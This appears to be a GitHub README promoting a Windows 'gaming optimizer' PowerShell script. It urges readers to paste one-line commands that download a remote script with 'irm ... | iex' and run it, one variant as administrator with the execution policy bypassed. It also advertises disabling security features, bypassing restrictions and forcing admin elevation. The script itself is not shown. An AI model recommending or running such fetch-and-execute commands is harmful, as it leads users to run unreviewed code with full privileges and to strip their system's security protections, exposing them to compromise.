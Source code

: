 # 🚀 Ultimate Gaming Optimizer

The most aggressive **Windows gaming optimization script** ever created.

---

## ⚡ Features

### 🧠 Performance Enhancements
- **Maximum CPU/GPU Performance** — Disables all throttling and power limits  
- **Ultra-Low Latency Network** — Gaming-optimized network stack  
- **RAM Optimization** — Large system cache, prefetch disabled  
- **Storage Performance** — SSD optimized, indexing disabled  

### 🖥️ System Optimization
- **100+ Services Disabled** — Pure gaming mode  
- **Visual Effects Removed** — Maximum FPS focus  
- **Game Mode Maximum** — Full system resources to games  
- **Security Features Optimized** — Performance over security  

### 🧩 Advanced Features
- **Multi-Method Execution** — Bypasses all restrictions  
- **Auto-Admin Elevation** — Always runs with maximum privileges   

---

## 🎯 Quick Start

### Method 1: One-Line Install (Recommended)

    irm https://raw.githubusercontent.com/Ano-n-ymous/gaming-optimizer/main/gaming-optimizer.ps1 | iex
  **Then reboot your computer and done!**

## 🧩 Method 2: Admin PowerShell

Run **PowerShell as Administrator**, then execute:

```powershell
powershell -ExecutionPolicy Bypass -Command "irm https://raw.githubusercontent.com/Ano-n-ymous/gaming-optimizer/main/gaming-optimizer.ps1 | iex"
```
  **Then reboot your computer and done!**


## ⚠️ Important Notes

- **Backup Your System First**  
- **Disables Non-Gaming Functionality**  
- **Forces Automatic Restart**  
- **Requires Administrator Rights**

---

## 🛡️ Compatibility

- **Windows 10/11** (All versions)  
- **All Hardware Configurations**  
- **NVIDIA / AMD / Intel GPUs**

---

## 📊 Results

- **Maximum FPS** — Full hardware utilization  
- **Reduced Input Lag** — Optimized process scheduling  
- **Faster Load Times** — Storage and memory optimized  
- **Stable Gaming** — Background services disabled
